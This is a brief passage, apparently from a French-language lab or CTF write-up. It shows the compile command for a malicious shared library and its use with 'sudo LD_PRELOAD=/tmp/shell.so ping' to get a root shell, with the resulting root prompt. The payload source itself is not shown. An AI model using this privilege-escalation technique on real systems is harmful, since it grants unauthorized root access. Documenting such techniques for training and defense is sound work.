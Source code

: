 ```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
et plus qu'a l'executer :
```
saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping 
root@m4lware:/tmp#
```
Et nous voila root :)
